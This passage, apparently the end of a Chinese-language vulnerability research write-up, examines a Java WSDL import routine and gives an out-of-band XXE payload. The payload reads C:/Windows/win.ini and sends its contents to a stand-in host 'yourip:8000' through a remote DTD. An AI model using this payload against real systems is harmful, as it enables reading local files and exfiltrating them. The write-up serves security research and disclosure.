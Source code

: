 ```
                        InputStream inputStream = null;
                        InputSource inputSource = null;
                        URL url = null;
                        if (this.loc != null) `{`
                            inputSource = this.loc.getImportInputSource(contextURI, locationURI);
                            String liu = this.loc.getLatestImportURI();
                            importedDef = (Definition)importedDefs.get(liu);
                            if (inputSource.getSystemId() == null) `{`
                                inputSource.setSystemId(liu);
                            `}`
                        `}` else `{`
                            URL contextURL = contextURI != null ? StringUtils.getURL((URL)null, contextURI) : null;
                            url = StringUtils.getURL(contextURL, locationURI);
                            importedDef = (Definition)importedDefs.get(url.toString());
                            if (importedDef == null) `{`
                                inputStream = StringUtils.getContentAsInputStream(url);//进行了请求，可以通过这个请求将数据外带，但是还是有些限制，例如有&amp;或"等字符的文件会报错导致带不了
                                ...
                                ...
```

xml payload:

```
xml如下：
&lt;!DOCTYPE x [
  &lt;!ENTITY % aaa SYSTEM "file:///C:/Windows/win.ini"&gt;
  &lt;!ENTITY % bbb SYSTEM "http://yourip:8000/xx.dtd"&gt;
  %bbb;
]&gt;
&lt;definitions name="HelloService" xmlns="http://schemas.xmlsoap.org/wsdl/"&gt;
  &amp;ddd;
&lt;/definitions&gt;

xx.dtd如下：
&lt;!ENTITY % ccc '&lt;!ENTITY ddd '&lt;import namespace="uri" location="http://yourip:8000/xxeLog?%aaa;"/&gt;'&gt;'&gt;%ccc;
```

[![](https://p5.ssl.qhimg.com/t018e36f5124ec8c047.png)](https://p5.ssl.qhimg.com/t018e36f5124ec8c047.png)



## 最后

我们只看了浮在表面上的一些地方，人工最多只看了两层调用，也许RCE隐藏在更深的地方或者知识盲点现在没找到呢，还是得有个属于自己的能查找链的工具，工具不会累，人会。

